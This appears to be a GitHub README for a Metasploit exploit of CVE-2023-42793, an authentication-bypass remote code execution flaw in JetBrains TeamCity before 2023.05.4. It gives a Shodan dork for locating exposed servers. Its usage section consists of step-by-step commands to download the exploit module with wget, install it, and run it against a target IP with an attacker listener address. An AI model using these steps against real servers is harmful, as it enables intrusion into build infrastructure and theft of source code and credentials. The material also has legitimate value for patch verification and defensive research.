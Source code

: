 # CVE-2023-42793

![](https://img.shields.io/static/v1?label=Product&message=JetBrains%20TeamCity%20Server&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=All%20versions%20of%20TeamCity%20prior%20to%20version%202023.05.4&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:9.8.%20Remote%20Code%20Execution&color=red)

## Shodan Dork:
```
TeamCity-Node-Id: MAIN_SERVER
```

## Description

In JetBrains TeamCity before 2023.05.4 authentication bypass leading to RCE on TeamCity Server was possible


### Usage

### Metasploit Framework
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/JetBrains_RCE/jetbrains_teamcity_rce_cve_2023_42793.rb
```
```
cp jetbrains_teamcity_rce_cve_2023_42793.rb /usr/share/metasploit-framework/modules/exploits/multi/http/jetbrains_teamcity_rce_cve_2023_42793.rb
```
```
msfdb reinit; msfconsole -q
```
```
use exploits/multi/http/jetbrains_teamcity_rce_cve_2023_42793.rb
```
```
set RHOSTS target_IP
```
```
set lhost attacker_IP
```
```
run
```

